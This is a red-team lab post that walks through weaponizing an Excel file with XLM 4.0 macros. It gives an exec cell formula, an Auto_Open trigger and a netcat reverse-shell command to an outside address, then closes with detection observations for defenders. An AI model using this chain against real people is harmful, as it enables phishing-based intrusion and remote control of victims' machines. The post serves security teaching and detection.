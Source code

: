```yaml
---
layout: post
title: "2024-06-18-phishing xlm macro 4.0"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-xlm-macro-4.0/
---
```


# Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../../.gitbook/assets/phishing-xlm-hex.png)

![](../../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}

@spotheplanet
